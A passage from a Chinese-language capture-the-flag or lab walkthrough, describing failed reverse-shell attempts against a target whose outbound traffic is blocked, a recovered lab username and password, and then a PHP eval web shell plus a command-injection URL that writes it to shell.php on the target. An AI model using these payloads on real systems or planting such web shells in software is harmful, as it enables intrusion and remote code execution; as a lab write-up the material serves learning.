 用户名`desafio02`和密码`abygurl69`，这里打算再以这个凭证登录的，发现失败

# 反弹shell

那么回到网站上，尝试通过`php`文件获取一个反弹`shell`，不过在构造多条语句无果后，我测试了一下网络连通，发现`kali`可以连通靶机，但是反过来不行，导致流量无法出来。可能是这个`php`文件中还有其他的限制等情况

![](./pic/15.jpg)

![16](./pic/16.jpg)

这个流量没出去，不过既然命令可执行，就尝试在本地直接写一个`php`文件，然后再测试

写入是可以的，不过还是不能直接反弹`shell`，则，再写`sh`脚本，也是不行，这个肯定是防火墙之类的端口限制了，需要找到某个端口可以进行流量发送的，之前`nmap`扫描到的`21`和`80`端口试试

也可能是`system`的问题，尝试写入一个新的

```php
<?php @eval($_REQUEST['cmd']);?>
```

在浏览器输入

```shell
busque.php?buscar=echo '<?php @eval($_GET['cmd']);?>' > shell.php
```
